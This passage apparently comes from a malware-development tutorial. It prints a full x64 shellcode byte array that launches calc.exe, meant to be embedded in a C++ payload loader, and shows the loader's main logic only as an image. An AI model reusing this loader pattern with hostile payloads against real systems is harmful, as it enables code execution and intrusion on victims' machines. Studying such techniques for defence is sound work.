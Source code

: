 and we have `sizeof(my_payload)` size of payload.

For simplicity, we use `calc.exe` as the payload. Without delving into the generation of the payload, we will simply substitute the finished payload into our code:
```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

And the main logic of our `main` function is:
![main function logic](/assets/images/2/2021-09-04_11-57.png){:class="img-responsive"}
